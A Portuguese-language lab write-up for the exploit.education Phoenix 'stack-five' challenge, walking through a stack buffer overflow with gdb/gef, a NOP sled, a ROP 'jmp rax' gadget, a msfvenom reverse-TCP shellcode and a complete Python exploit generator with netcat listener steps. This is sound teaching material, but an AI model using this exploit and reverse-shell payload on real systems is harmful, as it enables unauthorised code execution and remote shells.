



- [🎯 Objetivo](#-objetivo)
- [💡 Dicas](#-dicas)
- [🔥 Exploit](#-exploit)
  - [Analisando o programa](#analisando-o-programa)
  - [Agora em ASM :D (analise estática)](#agora-em-asm-d-analise-estática)
    - [Breakpoint](#breakpoint)
  - [Agora vamos executar o programa (analise dinâmica)](#agora-vamos-executar-o-programa-analise-dinâmica)
  - [Encontrar endereço do buffer](#encontrar-endereço-do-buffer)
  - [NOP sled](#nop-sled)
  - [Shellcode](#shellcode)
  - [Corrigindo o problema](#corrigindo-o-problema)
    - [ROP Gadgets](#rop-gadgets)
- [💫 Solução](#-solução)

# 🎯 Objetivo
Finalmente! Tudo isso para chegar no BOF SRP (clássico) :D

Agora ta na hora de redirecionar o pointer para o nosso código malicioso (shellcode) para ganhar uma shell 
# 💡 Dicas
A instrução `0xCC` (`int3`) serve para no debugger (como o gdb), para quando o rip chegar nela, a execução pausar (`breakpoint`). Nos podemos usa-la para testar se
sequer conseguimos executar código, ou se o problema ta no shellcode: Se o debugger avisa que teve `SIGTRAP`, nos temos execução de código :D

Banco de dados de shellcode: [shell-storm](http://shell-storm.org/shellcode/files/)
# 🔥 Exploit
## Analisando o programa
`main()` printa o banner e chama `start_level()`

`start_level()` cria um buffer[**128**] e salva o output de `gets()` (**inseguro**)

Como você pode ver, não existe `complete_level()`

Para completar, precisamos executar nosso próprio código (`shellcode`) e conseguir uma shell (uma linha de comando)
## Agora em ASM :D (analise estática)

Normalmente, o gdb printa assim:
```x86asm
   0x00000000004005a4 <+0>:	push   rbp
   0x00000000004005a5 <+1>:	mov    rbp,rsp
   0x00000000004005a8 <+4>:	sub    rsp,0x10
```
Porem, eu removi os endereços para simplificar, e só mantive os importantes!

Primeiro, vamos ver main
```x86asm
gef> disassemble main
push   rbp
mov    rbp,rsp                    <- Prologo
sub    rsp,0x10
   
   
mov    DWORD PTR [rbp-0x4],edi
mov    QWORD PTR [rbp-0x10],rsi   <- args de puts
mov    edi,0x400620
call   0x400400 <puts@plt>        <- call puts
   
   
mov    eax,0x0                    <- args de start_level (nenhum)
call   0x40058d <start_level>     <- call start_level
   
   
mov    eax,0x0                    <- exit code (código de saida, 0=sem erro)
leave                             <- Epilogo  
```
Agora vamos ver start_level
```x86asm
gef> disassemble start_level 
push   rbp
mov    rbp,rsp                  <- Prologo 
add    rsp,0xffffffffffffff80   
                                
   
lea    rax,[rbp-0x80]         <- rax = Pointer para buffer[128]
mov    rdi,rax                <- rdi = rax

0x000000000040059c <+15>:
call   0x4003f0 <gets@plt>    <- call gets


nop
leave                         <- Epilogo
ret
```
Agora vamos adicionar um breakpoint!
### Breakpoint
> Breakpoint = ponto de pausa

Antes daquela intrusão ser executada, sera substituída por `0xCC`. Isso faz o  debugger pausar a execução do programa naquela instrução!

Quando continuamos executando (normalmente o comando é **continue**), o `0xCC` é substituído pela instrução certa :D
 
Se você esta fora de um debugger, `0xCC` vai fazer o programa sair com erro
```x86asm
gef> b *0x000000000040059c
Breakpoint 1 at 0x40059c
```
"b" é o comando do gdb para adicionar um breakpoint \ 
A "*" tem haver com aquele dos pointers \ 
O endereço é para "`call gets`"

> Dica: se você selecionar/sublinhar (clique esquerdo e passa o mouse em cima, você sabe do que eu to falando), e clicar o botão do meio no mouse (a rodinha) 
> o terminal automaticamente da Ctrl-C Ctrl-V naquele valor para você! Então não precisa copiar o endereço manualmente :D

## Agora vamos executar o programa (analise dinâmica)
126 As não causam erro, e 127 As causam... ue, mas pq? não era pra dar erro só em 128?
```bash
$ python3 -c "print('A'*126)" | ./stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education

$ python3 -c "print('A'*127)" | ./stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education
Segmentation fault
```
Isso vai ser muito importante no próximo desafio: buffers são terminados com um null byte!

Por enquanto, isso só nos mostra que o compilador não adicionou nada no meio do caminho entre o buffer e o EBP+EIP Salvos :D

E nós ja sabemos como controlar o EIP, então agora só precisamos saber para onde redirecionar a execução :)

## Encontrar endereço do buffer

Agora dentro do gdb (**gdb stack-five**)
> gef> r <<< $(python3 -c "print('A'*100)")
> 
> r é o comand do gdb para rodar o programa!
>  Adicionando "<<<" nós podemos mandar uma string pro input! Também funciona com arquivos ( r < nome_do_arquivo ) :D

```x86asm
gef> r <<< $(python3 -c "print('A'*100)")
Starting program: /opt/phoenix/amd64/stack-five <<< $(python3 -c "print('A'*100)")
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x000000000040059c in start_level ()

--- Output do gef ---
```
> gef é uma extensão do gdb que vai te dar um monte de informação util quando você chegar num breakpoint

O output do gef contem:

Porem, mais informações podem ser adicionadas! use `gef help` para ver como ele pode te ajudar :D 

Caso o programa seja executado sem breakpoints e com muitos As, vamos receber uma SIGSEV informando que "$PC"(outro nome para RIP) não pode ser redirecionado para "41414141", confirmando que o nosso buffer overflow é possível (olha as linhas no final da segunda imagem)



Agora, vamos colocar o breakpoint em `call gets()` e executar o programa com 140 As


As partes importante no output do gef são:

registers


argumentos (vazio: o pointer em RDI aponta para **0x00007fffffffe5b0**, que possui o valor 0x0000...,)


> Lembrete de que pointer começa com 2 NULL bytes ai :D 0x**0000**7fff....

stack


Você também acha que tem uma falta de AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ?? hehehe :P

(((Insira aquele meme muito velho da cabra gritando)))

Então vamos avançar para próxima instrução (step: `s`) :D


Isso quer dizer que aquele pointer dos argumentos (RDI) agora aponta para os As! :D
```x86asm
gef> x/s 0x00007fffffffe5b0              -> x/s é o comando para printar strings
0x7fffffffe5b0:	'A' <repete 140 vezes>
```
Então nos ja temos o endereço dos nossos As :D ... que em breve serão shellcode :D

Mas agora precisamos saber com precisão quantos As até o RIP, `info frame` vai nos ajudar com isso:
```x86asm
gef> info frame
Stack level 0, frame at 0x7fffffffe640:
 rip = 0x4005a1 in start_level  saved rip = 0x4005c7
 called by frame at 0x7fffffffe610
 Arglist at 0x7fffffffe630, args: 
 Locals at 0x7fffffffe630, Previous frame's sp is 0x7fffffffe640
 Saved registers:
  rbp at 0x7fffffffe630, rip at 0x7fffffffe638
```
A ultima linha é a mais importante!

RIP em: `0x7fffffffe638`

Então para encontrar precisamente quantos As precisamos colocar até chegarmos no RIP,
basta subtrair `endereço do rip salvo - endereço dos As`
```x86asm
$ python3
>>> 0x7fffffffe638 - 0x00007fffffffe5b0
136
```

Para confirmar isso, vamos rodar com 136 As + BBBB


RIP = BBBB (42424242) :D

## NOP sled
Entretanto, como nada pode ser simples nesse mundo do desenvolvimento de exploits, nós não conseguimos saber com precisão que o buffer vai estar naquela localização :(

Isso ocorre pois as envs são alocadas na stack. E elas variam muito, por exemplo, só de mudar o local de onde o programa esta sendo executado quebraria o nosso exploit.
> Dica: O gef pode nos ajudar a encontra-las


Por exemplo:



Para remediar isso, podemos usar um NOP sled (ou NOP slide) ! :D

(Outro método de remediação é mencionado em `stack-six`)

NOP significa "**No** **OP**eration" (**N**enhuma **OP**eração) ! é uma instrução que não faz nada :D

A representação em machine code do NOP é `0x90` :D Bem fácil de decorar, quem me dera escola fosse fácil assim hehehe :)

O processador vai fazer nada e passar para a próxima, e se nós colocarmos vários desses em sequencia, o RIP vai "deslizando" através até chegar no nosso código!

Você pode imaginar um escorregador :D yuuuuupiii


Então a gente redireciona o RIP para o meio do escorregador de NOPs, para ele deslizar até o nosso código :D

Assim, mesmo se o buffer estiverem em um endereço diferente, o RIP vai chegar no nosso shellcode

Para testar isso, vamos usar o truque do `0xCC` mencionado anteriormente

O input que vai passar vai conter:

```x86asm
NOP * 135
0xCC
Endereço para ser colocado no RIP: 0x00007fffffffe5b0 + 70

70 = metade do escorregador (135)
```
E os **breakpoints do gdb serão removidos**, então caso encontremos um breakpoint, foi o `0xCC` acima

```x86asm
$ python3
>>> hex(0x00007fffffffe5b0 + 70)
'0x7fffffffe5f6'                     - Little Endian -> '\xb6\xe5\xff\xff\xff\x7f'
```
Agora executando:
```x86asm
r <<< $(python -c "print '\x90' *135 + '\xcc' +'\xb6\xe5\xff\xff\xff\x7f'")
```
Nos recebemos uma SIGTRAP (chegou no breakpoint)
```x86asm
[#0] Id 1, Name: "stack-five", stopped, reason: SIGTRAP
```
E na seção `code` do gef

Meio difícil de ver, mas tem:
```x86asm
NOP
NOP
INT3
(bad)
(bad)
```

> int3 é o nome de 0xCC, da mesma maneira que NOP é o nome de 0x90 

Apos a nossa ultima instrução ha instruções invalidas `(bad)` que eram o nosso pointer, e logo em seguida o resto do programa normal! :D

## Shellcode

Shellcode é o código malicioso que vai ser executado ( normalmente te dando uma shell (terminal) não autorizada )

Nos podemos usar os do link citado na dica, ou gerar uma usando `msfvenom` (ja vem instalado no kali linux)

> msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux -a x64 -f python --var-name buf

```
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of python file: 373 bytes
buf =  b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += b"\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += b"\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += b"\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += b"\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += b"\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"

```

Agora, vamos fazer um exploit mais bem feito! `vim /tmp/gerar_exploit.py`
```python
buf =  b""

# shellcode
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += b"\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += b"\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += b"\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += b"\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += b"\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"

# NOP Sled para completar o resto do tamanho
buf = '\x90'*(136-len(buf)) + buf

# ret
buf += b'\xb6\xe5\xff\xff\xff\x7f' 


open("/tmp/exploit","wb").write(buf)
```

> O script /tmp/gerar_exploit.py vai gerar o que colocaríamos no input, mas ao invés de printarmos para o terminal, vamos salvar em um arquivo binário (por isso o "`wb`" no `open`)! 
> 
> Depois é só ler esse arquivo e redireciona-lo `cat /tmp/exploit | ./stack-five` 

Porem, se tentamos executar esse exploit, recebemos `SIGSEV: violação de segmento`

## Corrigindo o problema
Nessa eu empaquei, e a solução veio daqui: [blog lamarranet](https://blog.lamarranet.com/index.php/exploit-education-phoenix-stack-five-solution/)

Então valeu pela ajuda :D

Ao invés de colocar o endereço do buffer diretamente no RIP, vamos achar algo no programa original que aponte para ele: um `jmp esp` por exemplo

E o beneficio é que, por estarmos pulando para uma parte estática, e usando-a para redirecionar para o buffer, não corremos o risco do buffer mudar de endereço!

Isso quer dizer que não precisamos mais do NOP slide :D 

### ROP Gadgets

Essa é uma técnica chamada programação `ROP`, que sera discutida em tutoriais futuros :D  Mas o que você precisa saber por enquanto é que cada um desses `jmps` é chamado de **gadget**

Gadgets são instruções em outras partes do programa, que são reaproveitadas por nos. Geralmente executar algo e pular para outro gadget!

Para achar esse jmp que nos ajudaria, podemos usar uma ferramenta chamada `ROPgadget`
```x86asm
$ ROPgadget --binary stack-five --only "jmp"
Gadgets information
============================================================
0x0000000000400481 : jmp rax

Unique gadgets found: 1
```

Isso quer dizer que, ao pular para `0x400481`, vamos executar `jmp rax` e acabar pulando para rax! e para onde rax aponta?

Colocando um break antes do ret de `start_level`, podemos ver que antes de retornar, rax aponta para o mesmo endereço que rsp, e convenientemente o inicio do nosso buffer


rax,rdi e rsp apontam para o inicio do buffer dos As

Assim, não vamos mais precisar do NOP slide: temos um exploit que 100% dos casos vai apontar para o inicio do buffer!

Só precisamos colocar `padding` entre o shellcode e o RIP

Então vamos modificar o exploit :D
```
Dica: Shellcode+AAAAA+ret, Little Endian, 136 bytes ate RIP

Se você não quiser ver a solução enquanto tenta!
.
.
.
.
.
.
.
.
.
.
.
```


```python
buf =  ""

# shellcode
buf += "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += "\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += "\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += "\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += "\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += "\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"

# Padding
buf += 'A' * (136 - len(buf))

# ret
buf += '\x81\x04\x40' # Aponta para jmp rax

open("/tmp/exploit","wb").write(buf)
```
> Eu removi o **b""** pq tava dando problema :(

Agora basta gerar o exploit: `python /tmp/gerar_exploit.py`

Abrir um novo terminal: `ssh -p 2222 user@localhost`

Terminal 1: `nc -lvnp 4444`

Terminal 2: `cat /tmp/exploit | ./stack-five` 

Agora, no terminal 1 deve ter uma shell :D


> Dica: `bash -ip` vai deixar a sua shell mais usável

Se nos tivéssemos executado o programa como root, a nossa shell teria esses privilégios elevados ! :D


`UID = 0` quer dizer que possuímos privilégios de root, mesmo que o `whoami` não tenha dito root

E se o programa estivesse exposto para a rede, poderíamos conseguir uma root shell remota :D (spoiler para os próximos desafios hehehe)

---

Você chegou até aqui :D

Toma mais um gif de panda como presente


# 💫 Solução

> vim /tmp/gerar_exploit.py
```
buf =  ""

# shellcode
buf += "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += "\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += "\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += "\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += "\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += "\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"

# Filler
buf += 'A' * (136 - len(buf))

# ret
buf += '\x81\x04\x40' # Aponta para jmp rax

open("/tmp/exploit","wb").write(buf)
```

Agora basta gerar o exploit: `python /tmp/gerar_exploit.py`

Abrir um novo terminal: `ssh -p 2222 user@localhost`

Terminal 1: `nc -lvnp 4444`

Terminal 2: `cat /tmp/exploit | ./stack-five` 

Agora, no terminal 1 deve ter uma shell :D

